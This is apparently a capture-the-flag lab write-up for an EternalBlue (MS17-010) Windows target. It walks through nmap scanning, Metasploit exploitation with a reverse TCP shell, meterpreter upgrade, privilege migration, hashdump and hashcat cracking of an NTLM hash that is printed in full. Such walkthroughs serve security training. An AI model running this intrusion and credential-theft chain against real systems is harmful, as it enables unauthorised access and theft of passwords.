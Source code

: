 ![image](https://user-images.githubusercontent.com/66912443/186679481-0d9ba8eb-bdcb-4683-943a-79614aa60bb9.png)

____________________________________________________________________________________________________________________ 

## Recon

<details>
<summary> How many ports are open with a port number under 1000? </summary>
  <p></p>

____________________________________________________________________________________________________________________  
  
As we are specifying only ports under 1000 we use the following command:
  
``` nmap [ip] -p 0-1000 ```

As seen below, running this command exposes 3 open ports:
  
![image](https://user-images.githubusercontent.com/66912443/186659494-ca27127c-ef59-4279-8c78-4a66e22f1cd9.png)

____________________________________________________________________________________________________________________  
  
</details>

<details>
<summary> What is this machine vulnerable to? </summary>
<p></p>

____________________________________________________________________________________________________________________ 

The script "vuln" is a CVE detection script that helps discover vulnerabilities in the scanned network. It can be activated with the following command:
  
``` nmap [ip] --script vuln ```
  
As seen below it has identified the machine is vulnerable to "ms17-010"
  
![image](https://user-images.githubusercontent.com/66912443/186661668-94728fae-8558-4642-81a8-3cb717ee4798.png)

____________________________________________________________________________________________________________________  
</details>

## Gain Access

<details>
<summary> Find the exploitation code we will run against the machine. What is the full path of the code? </summary>
  <p></p>
  
____________________________________________________________________________________________________________________ 
  
Rapid7 is a great tool for finding vulnerabilities and their uses along with sometimes instructions on how to complete the exploit yourself. Using rapid7.com's Vulnerability and Exploit Database, this vulnerability can be seen in more detail:
  
``` https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/ ```
  
Talking about instructions on how to complete the exploit yourself, at the bottom of the page the first line of code identifies the exploitation code needed to run against the machine!
  
![image](https://user-images.githubusercontent.com/66912443/186663495-0312c1af-22e4-4549-bfbf-563dda2f2670.png)

____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Show options and set the one required value. What is the name of this value? </summary>
  <p></p>

____________________________________________________________________________________________________________________   
``` RHOSTS ``` is the one required value. This is because RHOSTS determines the ip address of the target.

____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> With that done, run the exploit! </summary>
 
____________________________________________________________________________________________________________________ 

Before running the exploit, make sure to run the following command as by default it will load meterpreter and a follow up question requires converting shell to meterpreter shell.
  
``` set payload windows/x64/shell/reverse_tcp ```
  
Then simply type 'run' and let metaspolit do its thing! If done correctly you will be presented with something similar to the following:
  
![image](https://user-images.githubusercontent.com/66912443/186665440-c9ede66d-7bc3-4245-b47e-a56ceec67727.png)

  
____________________________________________________________________________________________________________________ 

</details>

## Escalate

<details>
<summary> Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? </summary>
  
____________________________________________________________________________________________________________________

Thanks to a post by 'Binamra Pandey' I have learnt the command to convert a shell is as follows: 
   
``` post/multi/manage/shell_to_meterpreter ```
  
<p></p>
  
Source = https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646  
____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Select this (use MODULE_PATH). Show options, what option are we required to change? </summary>
  
____________________________________________________________________________________________________________________ 

``` SESSION ``` is the required option as we need to know which session (that has been backgrounded) to run this exploit on. In my example 'session 2' was backgrounded. 
  
To list all sessions use ``` sessions -l ```
  
![image](https://user-images.githubusercontent.com/66912443/186669104-9eca0c90-a0e7-453b-953b-3fc117fda793.png)


____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> Run! If this doesn't work, try completing the exploit from the previous task once more. </summary>

____________________________________________________________________________________________________________________ 

  <p></p>
  Running the exploit should lead you to see similar to this below. As seen in the text it says 'Meterpreter session 3 opened'. So the next step would be to navigate to it using the command:
<p></p>  
  
``` sessions 3 ```

  <p></p>  
  
![image](https://user-images.githubusercontent.com/66912443/186669699-49fc84fc-7b7a-49bf-b5e7-6d29bfba8a0b.png)
  
  ____________________________________________________________________________________________________________________ 

</details>

<details>
<summary> Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
  Running 'getsytem':
  <p></p>
  
  ![image](https://user-images.githubusercontent.com/66912443/186670379-144fb6db-c4a8-48e7-8121-2c1bb294e465.png)
  
  Opening a dos shell and running whoami:
  
  ![image](https://user-images.githubusercontent.com/66912443/186670738-df061830-ee4b-4a00-a779-2d34e8402ddd.png)

____________________________________________________________________________________________________________________ 
  
</details>

<details>
<summary> List all of the processes running via the 'ps' command. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
  As seen in the cropped screenshot below, powershell.exe as well as many others are running at 'NT AUTHORITY/SYSTEM'. For simplicities sake I will stick with powershell, process ID 3056.
  <p></p>
  
![image](https://user-images.githubusercontent.com/66912443/186671522-82c4c813-c4f0-492d-a3d6-346b435e3657.png)
____________________________________________________________________________________________________________________   

</details>

<details>
<summary> Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
This is as simple as the following command:
  
```migrate 3056 ```
  
This is useful as now we are running on a process that has system authority!
  
![image](https://user-images.githubusercontent.com/66912443/186671912-1726b9c4-7c78-41c4-934b-3772421e6a6b.png)

____________________________________________________________________________________________________________________   

</details>

## Cracking

<details>
<summary> Within our elevated meterpreter shell, run the command 'hashdump'. What is the name of the non-default user? </summary>

____________________________________________________________________________________________________________________ 

  <p></p>
  The name of the non-default user is <i> jon </i>
  <p></p>
  
  ![image](https://user-images.githubusercontent.com/66912443/186672534-d803dffa-6966-49a6-8fff-7cb3614836bf.png)

____________________________________________________________________________________________________________________   
</details>

<details>
<summary> Copy this password hash to a file and research how to crack it. What is the cracked password? </summary>

  ____________________________________________________________________________________________________________________ 
  
  <p></p>
  This is the hashdump we will be working with:
  <p></p>
  
``` Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: ```

Windows uses NTLM to authenticate a client on an Active-Directory domain. When it comes to cracking the passwords this is what we will need to select in hashcat. Looking at hashcat's hash mode table we know that NTLM uses hash mode 1000:
  
![image](https://user-images.githubusercontent.com/66912443/186678368-1512a206-2470-4e42-a1f9-22d083e375ae.png)

  
To make the hash easier to work with, I have first copied the hash and put it into a file called 'hash.txt' in the root directory.
  
![image](https://user-images.githubusercontent.com/66912443/186675515-4466972d-a3f0-401f-8c8f-e940ce9b1f96.png)

Next, we will use hashcat to crack the hashes, this includes the hash mode type talked about above:
  
``` hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt ```
  
After letting it run long enough you will have your cracked hash!
  
![image](https://user-images.githubusercontent.com/66912443/186678699-75c0b403-b9b2-477e-9c0f-f43e03e4925c.png)

____________________________________________________________________________________________________________________ 

</details>

## Find Flags!

<details>
<summary> Flag1? This flag can be found at the system root. </summary>

____________________________________________________________________________________________________________________ 
  <p></p>  
  
The first step was to change sessions back to the dos shell so i could manouver about the system again. Once I was back in the shell, I changed to the root directory 'C:/'.
  
![image](https://user-images.githubusercontent.com/66912443/186680032-ff6ea4db-ec57-41c0-ab8f-9b352e7960ef.png)

Here i printed the contents of the system root exposing 'flag1.txt'
  
![image](https://user-images.githubusercontent.com/66912443/186680449-8f29e773-0ffc-492a-89a2-0f8b24173a2e.png)

From here on I used the command 'more' to view the contents of the file. (I dont know why meterpreter died)
  
![image](https://user-images.githubusercontent.com/66912443/186680549-81dfd518-421f-4819-a779-bc1eabe6d035.png)

____________________________________________________________________________________________________________________ 
  
</details>

<details>
<summary> Flag2? This flag can be found at the location where passwords are stored within Windows. </summary>
  
  ____________________________________________________________________________________________________________________
  
  <p></p>
  
Windows passwords are stored at ``` C:\windows\system32\config\SAM ```.
  
  
Navigating to the \config\ directory led me to the flag2.txt file!
 
![image](https://user-images.githubusercontent.com/66912443/186682465-dca073d7-c605-4e51-ba68-b4c6cf5b615d.png)

____________________________________________________________________________________________________________________

</details>

<details>
<summary> Flag 3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. </summary>

____________________________________________________________________________________________________________________   
  
This was found in the user Jon's \Documents\ directory.


![image](https://user-images.githubusercontent.com/66912443/186683718-22c28b88-1ae6-4aa4-a154-7fb205924a37.png)

____________________________________________________________________________________________________________________ 
  
</details>


